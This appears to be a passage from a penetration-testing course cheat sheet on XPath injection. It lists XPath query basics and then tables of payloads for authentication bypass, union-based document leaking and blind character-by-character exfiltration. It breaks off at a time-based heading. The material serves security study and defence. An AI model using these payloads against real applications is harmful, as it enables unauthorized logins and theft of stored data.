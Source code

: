 Wildcards:

|Query|Explanation|
|---|---|
|`node()`|Matches any node|
|`*`|Matches any `element` node|
|`@*`|Matches any `attribute` node|

Union:

|Query|Explanation|
|---|---|
|<code>//module[tier=2]/title/text() &#124; //module[tier=3]/title/text()</code>|Select the title of all modules in tiers `2` and `3`|


#### Authentication Bypass

|Description|Username|Query|
|---|---|---|
|Regular Authentication|`htb-stdnt`|`/users/user[username/text()='htb-stdnt' and password/text()='295362c2618a05ba3899904a6a3f5bc0']`|
|Bypass Authentication with known username|`admin' or '1'='1`|`/users/user[username/text()='admin' or '1'='1' and password/text()='21232f297a57a5a743894a0e4a801fc3']`|
|Bypass Authentication by position|`' or position()=1 or '`|`/users/user[username/text()='' or position()=1 or '' and password/text()='21232f297a57a5a743894a0e4a801fc3']`|
|Bypass Authentication by substring|`' or contains(.,'admin') or '`|`/users/user[username/text()='' or contains(.,'admin') or '' and password/text()='21232f297a57a5a743894a0e4a801fc3']`|

#### Data Exfiltration

Unrestricted:
- Leak entire XML document via union injection: `| //text()`

Restricted:
- Determine schema depth via chain of wildcards `/*[1]`
- iterate through XML schema by increasing the indices to exfiltrate the entire document step-by-step

#### Blind Data Exfiltration

|Description|Payload|Query|
|---|---|---|
|Exfiltrating Node Name's Length|`invalid' or string-length(name(/*[1]))=1 and '1'='1`|`/users/user[username='invalid' or string-length(name(/*[1]))=1 and '1'='1']`|
|Exfiltrating Node Name|`invalid' or substring(name(/*[1]),1,1)='a' and '1'='1`|`/users/user[username='invalid' or substring(name(/*[1]),1,1)='a' and '1'='1']`|
|Exfiltrating Number of Child Nodes|`invalid' or count(/*[1]/*)=1 and '1'='1`|`/users/user[username='invalid' or count(/*[1]/*)=1 and '1'='1']`|
|Exfiltrating Value Length|`invalid' or string-length(/users/user[1]/username)=1 and '1'='1`|`/users/user[username='invalid' or string-length(/users/user[1]/username)=1 and '1'='1']`|
|Exfiltrating Value|`invalid' or substring(/users/user[1]/username,1,1)='a' and '1'='1`|`/users/user[username='invalid' or substring(/users/user[1]/username,1,1)='a' and '1'='1']`|

#### Time-based

Force the web application to iterate over the entire XML document exponentially:
